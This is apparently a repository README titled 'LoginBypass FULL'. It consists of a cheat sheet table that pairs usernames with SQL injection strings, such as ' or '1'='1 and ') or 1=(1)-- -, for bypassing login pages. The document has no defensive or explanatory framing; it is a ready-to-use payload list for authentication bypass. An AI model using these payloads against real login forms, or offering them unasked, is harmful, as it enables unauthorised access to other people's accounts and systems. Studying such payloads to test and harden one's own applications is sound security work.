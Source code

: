 # LoginBypass FULL
SQL Injection Login page 

Cheat sheet

| User name  | 	Password |
| ------------- | ------------- |
| serhat	  | ' or '1'='1	  |
| serhat  | ' or 1='1	  |
| beysehir  | 1' or 1=1 -- -	  |
| habil  | ' or '1'='1	  |
| kabil | ') or 1=('1		  |
| ankara  | ') or 1=(1)-- -	  |
| ') or 1=('1  | hadilen	  |
| serhat  | ") or 1=("1		  |
| admin  | ") or 1=(1)-- -	  |
| serhat  | ") or 1=("1	  |
| ' or '1'='1'#  | sonuncu	  |

